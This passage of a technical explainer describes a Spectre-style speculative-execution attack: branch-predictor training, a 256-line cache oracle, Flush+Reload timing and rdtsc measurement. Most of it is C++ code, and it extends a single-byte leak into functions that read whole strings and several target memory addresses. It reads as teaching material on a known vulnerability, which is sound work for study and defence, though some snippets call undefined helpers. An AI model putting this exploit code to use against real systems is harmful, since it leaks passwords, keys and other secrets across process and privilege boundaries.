for (auto &pointer : *array_of_pointers) {
    pointer = real_data_accessor.get();  // Train predictor
}

// Inject 1 "bad" accessor to cause misprediction
size_t local_pointer_index = run % kAccessorArrayLength;
(*array_of_pointers)[local_pointer_index] = censoring_data_accessor.get();
```

#### Training Loop Execution:

```cpp
for (size_t i = 0; i <= local_pointer_index; ++i) {
    DataAccessor *accessor = (*array_of_pointers)[i];
    // Virtual function call - trains branch predictor
    accessor->GetDataByte(offset, read_private_data);
}
```

### Why 1024 Specifically?

**Branch Predictor Training Requirements:**

- **Training Ratio**: 1023:1 (good:bad predictions)
- **BTB Saturation**: Fills Branch Target Buffer with consistent pattern
- **Statistical Significance**: Large enough sample for reliable misprediction
- **Performance Balance**: Not too large to cause excessive overhead

**Microarchitectural Impact:**

```
Training Effectiveness:
- 1023 correct predictions → high confidence in BTB
- 1 incorrect prediction → guaranteed misprediction
- Training ratio: 99.9% → very strong prediction bias
```

**Alternative Sizes Analysis:**

- **64 entries**: May not provide enough training (63:1 ratio)
- **256 entries**: Good balance, faster execution (255:1 ratio)
- **1024 entries**: Strong training, current choice (1023:1 ratio)
- **4096 entries**: Overkill, slower execution, may cause BTB pollution

-----

## 2. Cache Interaction Mechanisms

### How Code Gets Data To/From Cache

#### Cache Line Structure

```cpp
// BigByte is designed to fill entire cache line
struct BigByte {
    uint8_t value;
    uint8_t padding[63];  // Total: 64 bytes = 1 cache line
};
```

#### Oracle Array Setup

```cpp
std::array<BigByte, 256> oracle;  // 256 cache lines, one per possible byte value
```

**Memory Layout:**

```
Cache Line 0:  oracle[0]   (64 bytes) - represents byte value 0x00
Cache Line 1:  oracle[1]   (64 bytes) - represents byte value 0x01
Cache Line 2:  oracle[2]   (64 bytes) - represents byte value 0x02
...
Cache Line 255: oracle[255] (64 bytes) - represents byte value 0xFF
```

### Cache Operations in Attack

#### 1. Cache Flushing (`FlushOracle`)

```cpp
void FlushOracle() {
    for (auto &big_byte : oracle) {
        FlushFromDataCache(&big_byte, &big_byte + 1);
    }
}
```

**Purpose:** Remove all oracle entries from cache hierarchy
**Result:** All 256 cache lines evicted from L1/L2/L3 caches

#### 2. Speculative Cache Loading

```cpp
// During speculative execution:
char secret_byte = accessor->GetDataByte(offset, true);  // Gets secret value
ForceRead(oracle.data() + static_cast<size_t>(secret_byte));
```

**What Happens:**

1. `secret_byte` contains leaked value (e.g., 0x73 = ‘s’)
1. `oracle.data() + 0x73` points to `oracle[115]`
1. `ForceRead()` loads `oracle[115]` into cache
1. Even after misprediction rollback, `oracle[115]` remains cached

#### 3. Cache Timing Measurement

```cpp
std::pair<bool, char> RecomputeScores(char public_byte) {
    for (size_t i = 0; i < 256; ++i) {
        // Measure access time to each oracle entry
        auto start = high_resolution_clock::now();
        ForceRead(&oracle[i]);
        auto end = high_resolution_clock::now();
        
        timing[i] = duration_cast<nanoseconds>(end - start).count();
    }
    
    // Find fastest access (cache hit)
    size_t fastest_index = find_min_element(timing);
    return {confidence_check(), static_cast<char>(fastest_index)};
}
```

### Cache Page Relationship

**Cache Hierarchy Interaction:**

```
L1 Cache (32KB typical):
├── oracle[0-127] → May fit in L1
└── oracle[128-255] → Evicted to L2

L2 Cache (256KB typical):
├── Full oracle array fits
└── Other program data

L3 Cache (8MB typical):
├── Oracle array + surrounding memory
└── Shared across CPU cores
```

**Attack Timing Characteristics:**

- **L1 Hit**: ~1-2 nanoseconds (cache hit on secret oracle entry)
- **L2 Hit**: ~10-15 nanoseconds
- **L3 Hit**: ~30-50 nanoseconds
- **Memory Miss**: ~200-300 nanoseconds (all other oracle entries)

-----

## 3. Extending to Full String Leakage

### Current Single Character Implementation

```cpp
static char LeakByte(size_t offset) {
    // Leaks private_data[offset]
    // Returns single character
}
```

### Full String Leakage Extension

#### Method 1: Sequential Character Leakage

```cpp
std::string LeakFullString(size_t max_length = 256) {
    std::string leaked_string;
    leaked_string.reserve(max_length);
    
    for (size_t offset = 0; offset < max_length; ++offset) {
        char leaked_char = LeakByteVariableDepth(offset, g_branch_prediction_depth);
        
        // Stop at null terminator
        if (leaked_char == '\0') {
            break;
        }
        
        leaked_string.push_back(leaked_char);
        
        // Progress indicator
        std::cout << "Leaked: " << leaked_string << std::endl;
    }
    
    return leaked_string;
}
```

#### Method 2: Parallel Character Leakage

```cpp
std::string LeakStringParallel(size_t string_length) {
    std::vector<char> leaked_chars(string_length);
    std::vector<std::thread> threads;
    
    // Launch thread per character position
    for (size_t i = 0; i < string_length; ++i) {
        threads.emplace_back([&leaked_chars, i]() {
            leaked_chars[i] = LeakByteVariableDepth(i, g_branch_prediction_depth);
        });
    }
    
    // Wait for all threads
    for (auto &thread : threads) {
        thread.join();
    }
    
    return std::string(leaked_chars.begin(), leaked_chars.end());
}
```

#### Method 3: Adaptive Length Detection

```cpp
std::string LeakStringAdaptive() {
    std::string result;
    size_t offset = 0;
    const size_t MAX_STRING_LENGTH = 1024;
    
    while (offset < MAX_STRING_LENGTH) {
        char leaked_char = LeakByteVariableDepth(offset, g_branch_prediction_depth);
        
        // Handle common string terminators
        if (leaked_char == '\0' || leaked_char == '\n' || leaked_char == '\r') {
            break;
        }
        
        // Validate printable characters
        if (std::isprint(leaked_char) || std::isspace(leaked_char)) {
            result.push_back(leaked_char);
        } else {
            // Handle binary data or encoding issues
            result.append("\\x");
            result.append(to_hex_string(static_cast<uint8_t>(leaked_char)));
        }
        
        offset++;
        
        // Dynamic progress reporting
        if (offset % 10 == 0) {
            std::cout << "Progress: " << offset << " bytes leaked" << std::endl;
        }
    }
    
    return result;
}
```

#### Method 4: Multi-Target String Leakage

```cpp
struct StringTarget {
    const char* address;
    size_t max_length;
    std::string name;
};

std::map<std::string, std::string> LeakMultipleStrings(
    const std::vector<StringTarget>& targets) {
    
    std::map<std::string, std::string> results;
    
    for (const auto& target : targets) {
        std::cout << "Leaking: " << target.name << std::endl;
        
        // Temporarily update global pointer for this target
        const char* original_private = private_data;
        private_data = target.address;
        
        // Leak the string
        std::string leaked = LeakStringAdaptive();
        results[target.name] = leaked;
        
        // Restore original pointer
        private_data = original_private;
        
        std::cout << target.name << ": " << leaked << std::endl;
    }
    
    return results;
}
```

-----

## 4. Secret Detection in Cache - Detailed Mechanism

### Cache Side-Channel Detection Process

#### Step 1: Oracle Preparation

```cpp
// Each oracle entry occupies exactly one cache line
std::array<BigByte, 256> oracle;

// Before attack: flush all oracle entries
for (size_t i = 0; i < 256; ++i) {
    FlushFromDataCache(&oracle[i], &oracle[i] + 1);
}
// Result: All oracle[0-255] are NOT in cache
```

#### Step 2: Speculative Secret Access

```cpp
// During mispredicted speculation:
char secret_value = private_data[offset];  // e.g., secret_value = 0x73 ('s')

// Use secret as array index:
ForceRead(oracle.data() + static_cast<size_t>(secret_value));
// This loads oracle[0x73] into cache line
```

**Microarchitectural Events:**



#### Step 3: Cache Timing Measurement

```cpp
std::vector<uint64_t> access_times(256);

for (size_t i = 0; i < 256; ++i) {
    // Measure access time to oracle[i]
    uint64_t start = __rdtsc();  // Read timestamp counter
    volatile char dummy = oracle[i].value;  // Force memory access
    uint64_t end = __rdtsc();
    
    access_times[i] = end - start;
}
```

**Timing Pattern Analysis:**

```cpp
// Expected timing results:
access_times[0x00] = 400 cycles   // Cache miss (memory access)
access_times[0x01] = 380 cycles   // Cache miss
access_times[0x02] = 420 cycles   // Cache miss
// ...
access_times[0x73] = 45 cycles    // CACHE HIT! (secret value)
// ...
access_times[0xFF] = 390 cycles   // Cache miss
```

#### Step 4: Statistical Analysis and Confidence

```cpp
std::pair<bool, char> RecomputeScores(char public_byte_value) {
    // Find minimum access time
    auto min_iter = std::min_element(access_times.begin(), access_times.end());
    size_t fastest_index = std::distance(access_times.begin(), min_iter);
    uint64_t fastest_time = *min_iter;
    
    // Calculate confidence metrics
    uint64_t second_fastest = find_second_minimum(access_times);
    uint64_t timing_gap = second_fastest - fastest_time;
    
    // Exclude public data false positive
    if (fastest_index == static_cast<size_t>(public_byte_value)) {
        // This could be noise, find next fastest
        fastest_index = find_second_fastest_excluding(public_byte_value);
    }
    
    // Confidence threshold
    bool confident = (timing_gap > THRESHOLD) && 
                    (fastest_time < CACHE_HIT_THRESHOLD);
    
    return {confident, static_cast<char>(fastest_index)};
}
```

### Why Cache Detection Works

#### Cache Persistence Through Speculation

```cpp
// Key insight: Cache state survives misprediction recovery
// 
// Architectural state:  ROLLED BACK (no secret access visible)
// Microarchitectural:   PRESERVED (cache line remains)
//
// This creates a covert channel:
// secret_value → cache_line_index → timing_measurement → leaked_byte
```

#### Noise Filtering Techniques

```cpp
// Multiple measurements for confidence
const int MEASUREMENT_ROUNDS = 5;
std::vector<size_t> candidates;

for (int round = 0; round < MEASUREMENT_ROUNDS; ++round) {
    size_t candidate = perform_timing_measurement();
    candidates.push_back(candidate);
}

// Statistical analysis
std::map<size_t, int> frequency;
for (size_t candidate : candidates) {
    frequency[candidate]++;
}

// Find most frequent result
auto most_frequent = std::max_element(frequency.begin(), frequency.end(),
    [](const auto& a, const auto& b) { return a.second < b.second; });

if (most_frequent->second >= CONFIDENCE_THRESHOLD) {
    return most_frequent->first;  // High confidence result
}
```

### Attack Success Conditions

#### Required Timing Resolution

```cpp
// Successful attack needs:
// 1. Cache hit:  < 100 CPU cycles
// 2. Cache miss: > 200 CPU cycles  
// 3. Timing gap: > 100 cycles difference
// 4. Measurement noise: < 50 cycles standard deviation
```

#### Environmental Factors

```cpp
// Factors affecting success:
// 1. CPU frequency scaling (affects timing)
// 2. System load (cache contention)
// 3. Hardware prefetching (false positives)
// 4. Hyperthreading (cache sharing)
// 5. Operating system noise (interrupts)
```

The cache side-channel works because **speculative execution has microarchitectural side effects** that persist even after the speculation is architecturally rolled back. The secret value becomes the “key” that unlocks one specific cache line out of 256 possibilities, creating a detectable timing signature that reveals the secret data.​​​​​​​​​​​​​​​​
